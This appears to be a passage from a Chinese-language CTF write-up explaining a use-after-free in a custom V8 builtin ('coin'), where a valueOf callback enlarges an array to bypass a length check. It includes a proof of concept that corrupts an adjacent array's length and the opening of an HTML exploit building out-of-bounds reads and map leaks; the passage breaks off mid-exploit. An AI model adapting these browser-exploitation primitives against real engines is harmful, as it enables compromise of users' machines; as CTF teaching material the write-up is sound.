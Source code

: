 先是取了elements，然后再去js层回调valueOf函数。假如我们在js层里的valueOf函数里趁机把arr的length扩大，那么Array会申请新的elements，原来那个elements被释放了，然而会到native层时，elements仍然指向的是之前那个elements位置，这就造成了UAF，而`uint32_t array_length = static_cast&lt;uint32_t&gt;(array-&gt;length().Number());`是在之后执行，因此，我们一开始构造一个很小的arr，然后在valueOf里将arr扩大，那么即能绕过`if(37 &lt; array_length)`{``的判断，从原来的elements处溢出。

#### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

我们可以利用溢出，修改后方的array对象的length，从而构造一个可以自由oob的数组。<br>
POC

```
var val = `{`
   valueOf:function() `{`
      a.length = 0x100;
      return 0xffffffff;
   `}`
`}`;
var a = new Array(30);
var arb_double_arr = [1.1,2.2];
a.coin(0x666,val); //溢出写arb_double_arr的size
```

构造出oob数组以后，我们就可以利用之前介绍的方法利用了。<br>
exp

```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
  &lt;body&gt;
    &lt;script&gt;

var buf = new ArrayBuffer(0x8);
var dv = new DataView(buf);

function p64f(value1,value2) `{`
   dv.setUint32(0,value1,true);
   dv.setUint32(0x4,value2,true);
   return dv.getFloat64(0,true);
`}`

function i2f64(value) `{`
   dv.setBigUint64(0,BigInt(value),true);
   return dv.getFloat64(0,true);
`}`

function u64f(value) `{`
   dv.setFloat64(0,value,true);
   return dv.getBigUint64(0,true);
`}`

var val = `{`
   valueOf:function() `{`
      a.length = 0x100;
      return 0xffffffff;
   `}`
`}`;
var a = new Array(30);
var arb_double_arr = [1.1,2.2];
a.coin(0x666,val); //溢出写arb_float_arr的size
//获取double element的map
var double_element_map = arb_double_arr[2];
var b = new Array(30);
var obj = `{``}`;
var obj_arr = [obj];
var obj_element_map = arb_double_arr[0x13a];
```